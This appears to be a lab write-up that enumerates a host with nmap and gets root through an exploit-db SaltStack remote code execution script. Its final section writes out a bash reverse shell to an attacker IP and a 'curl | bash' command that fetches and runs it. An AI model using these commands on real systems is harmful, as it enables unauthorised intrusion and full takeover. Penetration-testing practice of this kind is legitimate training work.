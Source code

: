 # NMAP

Open TCP Ports: 22,53,80,4505,4506,8000 192.168.181.62
```sh
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 44:7d:1a:56:9b:68:ae:f5:3b:f6:38:17:73:16:5d:75 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCZz8rKSxgnT5mqHeBPqGlXFj2JJdq21roV/2M8/+0F5/5D1XsaXmbktDpKILFdBcYnLtPxWstxPq+FTbWAJad2uk3BPYWRxidK2dOozE5rKLCyxtkEqs/lO09pM6VKQUi83y5wMwI+9Akkir0AMruuFUSpeCIBt/L98g8OYxzyTsylQATnPxJrrQOWGUQYAvX6jIs25n6d3rmbXk/crg1ZfAVFEHEeR9Y6Bjc2o5YWjMp3XbOZyC4yYseoM6eH2yCSDwu1DzPYrU6cNMfxBf863w1uyhiFk3eIb5jud3kfoxIq6t5JU2DXNhEd4rdXuuinZUSxWiCpHLZ1FCi4tkX5
|   256 1c:78:9d:83:81:52:f4:b0:1d:8e:32:03:cb:a6:18:93 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBA1gj1q7mOswnou9RvKwuX8S7WFBhz2NlaSIpYPQmM0I/vqb4T459PgJcMaJOE+WmPiMnDSFsyV3C6YszM754Hc=
|   256 08:c9:12:d9:7b:98:98:c8:b3:99:7a:19:82:2e:a3:ea (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBzTSyInONbcDxdYULbDvI/HyrQm9m9M5b6Z825jnBEF
53/tcp   open  domain  syn-ack NLnet Labs NSD
80/tcp   open  http    syn-ack nginx 1.16.1
|_http-title: Home | Mezzanine
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.16.1
|_http-favicon: Unknown favicon MD5: 11FB4799192313DD5474A343D9CC0A17
4505/tcp open  zmtp    syn-ack ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    syn-ack ZeroMQ ZMTP 2.0
8000/tcp open  http    syn-ack nginx 1.16.1
|_http-title: Site doesn't have a title (application/json).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.16.1
|_http-open-proxy: Proxy might be redirecting requests
```

# Port 22
Let's find out which authentication methods are allowed for SSH on port 22.

```sh
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
| ssh-auth-methods: 
|   Supported authentication methods: 
|     publickey
|     gssapi-keyex
|     gssapi-with-mic
|_    password
```

# Port 80
Whatweb Summary   : Bootstrap, HTML5, HTTPServer[nginx/1.16.1], JQuery[1.8.3], nginx[1.16.1], Script, X-Frame-Options[SAMEORIGIN]             
We see a Mezzanine cms page

![](80.png)

# Port 4505 & port 4506
Footprinting these ports to not give myuch information. On google we find that these ports are the default ports of Salt.

>Salt is an event-driven automation tool and framework todeploy, configure, and manage complex IT systems. 

# Port 8000
WhatWeb Summary   : Allow[GET, HEAD, POST], HTTPServer[nginx/1.16.1], nginx[1.16.1], UncommonHeaders[access-control-expose-headers,access-control-allow-credentials,access-control-allow-origin,x-upstream]

![](8000.png)

When searching on google for {"clients": ["local", "local_async", "local_batch", "local_subset", "runner", "runner_async", "ssh", "wheel", "wheel_async"], "return": "Welcome"} we come to know that this has something to do with salt rest api.


# Exploit
On exploit-db there is the exploit “Saltstacks 3000.1 Remote Code Execution” 
Let's give it a shot.

```sh
python3 48421.py  -m 192.168.156.62 -r /etc/passwd
```
 And we can read the passwd file on the target.
![](passwd.png)


To gain an interactive shell we will serve a file on the attacker machine:
```sh
echo "bash -i >& /dev/tcp/192.168.45.154/22 0>&1" > shell.sh
```

We will start a listener on port 22 and serve the file on our machine. After this we execute the exploit:
```sh
python3 48421.py  -m 192.168.156.62 --exec "curl 192.168.45.154/shell.sh | bash"
```

![](exploit.png)

Now we are root!
![](root.png) 




